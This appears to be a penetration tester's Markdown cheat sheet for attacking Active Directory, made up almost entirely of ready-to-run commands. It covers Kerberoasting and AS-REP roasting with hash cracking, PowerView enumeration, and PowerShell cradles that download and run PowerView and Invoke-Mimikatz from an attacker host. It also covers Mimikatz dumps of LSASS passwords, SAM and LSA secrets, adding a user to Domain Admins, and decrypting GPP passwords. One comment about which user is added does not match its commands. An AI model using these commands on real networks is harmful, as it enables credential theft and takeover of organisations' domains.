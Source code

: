 # Methodology

## Enumeration

### Kali Commands

```bash
# Kerberoast
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER:$PASS
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER -hashes ':$NTLM'
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force

# AS-REP roast
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/$USER
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force

# Convert net user output to user list
tr -s ' ' '\n' < users.txt | sed '/^$/d'
```

With valid credentials for a domain user, we can first enumerate the domain remotely with [PowerView.py](https://github.com/aniqfakhrul/powerview.py)

**Note:** This can miss custome attributes compared to running PowerView locally

```bash
# Connect
powerview --dc-ip $IP $DOMAIN/$USER:$PASS@$IP
powerview --dc-ip $IP $DOMAIN/$USER@$IP -H ':$NTLM'

# Identify DC
Get-NetDomain

# Enumerate user objects
Get-NetUser -Select samaccountname
Get-NetUser -Properties samaccountname,description,memberof -TableView
Get-NetUser $USER
Get-NetGroup -Where 'member contains $USER' -Select cn

# Enumerate group objects
Get-NetGroup -Properties cn,member -TableView
Get-NetGroup $GROUP

# Enumerate Computer objects
Get-NetComputer -Properties dnshostname,operatingsystem,operatingsystemversion -TableView

# Check for logged-in users (DOES NOT WORK CURRENTLY, RUN LOCALLY)
# Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access (DOES NOT WORK CURRENTLY, RUN LOCALLY)
# Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN -Properties samaccountname,serviceprincipalname -TableView

# Retrieve the ACL for the specified object (DOES NOT WORK CURRENTLY, RUN LOCALLY)
# Get-ObjectAcl -Identity $OBJECT -Select SecurityIdentifier,ActiveDirectoryRights -TableView
# Get-ObjectAcl -Identity $OBJECT -Where 'ActiveDirectoryRights eq GenericAll' -Select SecurityIdentifier,ActiveDirectoryRights -TableView

# Enumerate domain shares (DOES NOT EXIST CURRENTLY, RUN LOCALLY)
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

### Local Access

Once we have local access, we can run **[BloodHound](0%20Tools/BloodHound.md)**

**PowerView**

```powershell
# Import PowerView
iex(new-object net.webclient).downloadstring("http://$OUR_IP/PowerView.ps1")

# Idenfity DC (check Pdc)
Get-NetDomain

# Enumerate user objects
Get-NetUser | select samaccountname,description,memberof
Get-NetUser $USER

# Enumerate group objects
Get-NetGroup | select cn,member
Get-NetGroup $GROUP | select cn,member
Get-NetGroup -UserName $USER | select cn

# Enumerate Computer objects
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

# Check for logged-in users
Get-NetSession -Computer $COMPUTER

# Find hosts on the local domain where the current user has local administrator access
Find-LocalAdminAccess

# Enumerate SPNs linked to users
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Retrieve the ACLs for the specified object
Get-ObjectAcl -Identity $OBJECT | select SecurityIdentifier,ActiveDirectoryRights
ConvertFrom-SID $SID
Get-ObjectAcl -Identity $OBJECT | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"$SID","$SID" | ConvertFrom-SID

# Enumerate domain shares
Find-DomainShare
Find-DomainShare -CheckShareAccess # Takes a long time
ls \\$COMPUTERNAME\$SHARE\$DOMAIN\
```

**Manual**

```powershell
# Print users within the current domain
net user /domain

# Check domain user information
net user offsec /domain

# Check password policy
net accounts

# Check domain groups
net group /domain
net group "$GROUP" /domain

# Add and remove "setphanie" from "Management Department"
net group "Domain Admins" mojo /add /domain
net group "Enterprise Admins" mojo /add /domain
```

### Tools

**[Mimikatz](0%20Tools/Local/Mimikatz.md)**

[Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

```bash
# Credentialed Enumeration
.\mimikatz.exe
iex(new-object net.webclient).downloadstring("http://$OUR_IP/Invoke-Mimikatz.ps1")

privilege::debug
token::elevate
log
sekurlsa::logonpasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
token::revert
exit

# DPAPI
vault::list
```

**[gpp-decrypt](0%20Tools/gpp-decrypt.md)**

Decrypts GPP credentials. Typically found in files like `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml`, and `Drives.xml`.

Key things to look for:

- **File Location:** GPP files are usually found in the `SYSVOL` folder on a domain controller, under the path `\\[DOMAIN]\SYSVOL\[DOMAIN]\Policies\`.
- **cpassword Attribute:** Within these XML files, look for the `cpassword` attribute. This attribute holds the encrypted form of the password.
- **XML Structure:** The structure of the XML file can give you a hint. For example, in a `Groups.xml` file, you might see something like:

```xml
<Group ...>
  <Properties ... cpassword="EDUYJgCbgCAmO5E..." ... />
</Group>
```

Decrypt with:

```bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

**[Rubeus](0%20Tools/Local/Rubeus.md)**

Crack associated hashes in hashcat

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
